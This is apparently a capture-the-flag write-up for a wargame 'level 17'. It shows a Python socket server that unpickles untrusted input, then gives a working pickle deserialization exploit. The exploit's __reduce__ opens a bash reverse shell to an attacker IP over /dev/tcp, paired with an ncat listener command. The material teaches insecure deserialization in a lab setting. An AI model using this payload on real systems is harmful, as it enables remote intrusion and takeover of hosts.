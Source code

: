 # level 17

```python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

The code has an error because it is using pickle without parsing the input, or
any other type of the control.

After a research with google we find the [vulnerability](https://blog.nelhage.com/2011/03/exploiting-pickle/)

On our host we runnetcat 'ncat -nlvp 8000'.

Now on our host we create the exploit.

```python
import cPickle
import os
import subprocess

class Exploit(object):
    def __reduce__(self):
        return (os.system, (("bash -i >& /dev/tcp/192.168.242.1/8000 0>&1"),))

with open("exploit.pickle", "wb") as f:
    cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```
